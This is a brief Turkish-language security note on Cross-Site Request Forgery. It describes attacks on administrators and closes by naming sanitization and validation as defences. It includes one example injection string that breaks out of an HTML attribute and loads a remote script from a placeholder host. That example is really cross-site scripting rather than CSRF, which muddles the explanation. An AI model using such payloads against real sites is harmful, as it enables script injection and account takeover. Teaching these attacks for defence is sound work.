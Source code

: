 ```yaml
---
icon: material/circle-small
---
```


# Cross-Site Request Forgery (CSRF)

CSRF, yöneticilere saldırmak ve yönetici hesaplarına erişim sağlamak için kullanılabilir. Yöneticilerin genellikle hassas fonksiyonlara erişimi vardır ve bunlar arka uç sunucusuna saldırmak için kullanılabilir. Aşağıdaki örnek ile uzak makineye bir JavaScript kodu yüklenmiştir:

```html
"><script src=//www.example.com/exploit.js></script>
```

Kullanıcı girdisi kabul edilirken iki ana kontrolün uygulanması gerekir:

1. Sanitization
2. Validation
